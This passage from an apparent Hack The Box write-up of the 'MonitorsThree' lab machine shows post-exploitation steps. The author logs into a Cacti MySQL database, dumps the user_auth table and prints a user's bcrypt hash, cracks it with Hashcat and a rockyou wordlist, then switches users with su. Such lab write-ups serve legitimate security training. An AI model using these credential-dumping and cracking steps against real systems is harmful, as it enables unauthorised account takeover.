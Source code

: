 Using the discovered credentials, a connection to the MySQL database was established:<br>
`mysql -h localhost -u cactiuser -p`

The following commands were executed to explore the database and extract sensitive information:
```
SHOW DATABASES;
USE cacti;
SHOW TABLES;
SELECT * FROM user_auth;
```
![](/assets/blogimages/Writeups/Hackthebox/MonitorsThree/MonitorsThree10.png)
The `user_auth` table contained hashed credentials:
`marcus:$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK`

The password hash for the `marcus` user was cracked using Hashcat:<br>
`hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt`
![](/assets/blogimages/Writeups/Hackthebox/MonitorsThree/MonitorsThree11.png)
Got password: **12345678910**

Direct SSH login using Marcus’s password was not possible due to password-based authentication being disabled. However, the `su` command was used within the `www-data` shell to switch to the `marcus` user:
![](/assets/blogimages/Writeups/Hackthebox/MonitorsThree/MonitorsThree12.png)
